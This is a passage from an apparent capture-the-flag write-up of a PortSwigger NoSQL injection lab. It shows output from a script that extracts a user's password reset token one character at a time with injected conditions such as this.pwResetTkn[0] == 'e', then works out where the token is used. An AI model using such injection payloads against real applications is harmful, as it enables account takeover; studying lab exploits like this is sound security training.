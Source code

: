 ```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-4)-[2023.10.10|15:52:02(HKT)]
└> python3 extract_field_names.py
[*] Trying payload: this.pwResetTkn[0] == "e"
[+] Found valid character "e" on character position 0
[*] Trying payload: this.pwResetTkn[1] == "6"
[+] Found valid character "6" on character position 1
[...]
[*] Trying payload: this.pwResetTkn[15] == "9"
[+] Found valid character "9" on character position 15
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Password reset token: e6190495b173daa9
```

Now that we have the password reset token for user `carlos`!

But... Where does the password reset token can be used? **Maybe it's at endpoint `/forgot-password`?**

**After some educated guessing, I found that the password reset token field name `pwResetTkn` is the validating tokens' GET parameter!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010161738.png)

**Let's provide the correct token in the `pwResetTkn` parameter!**
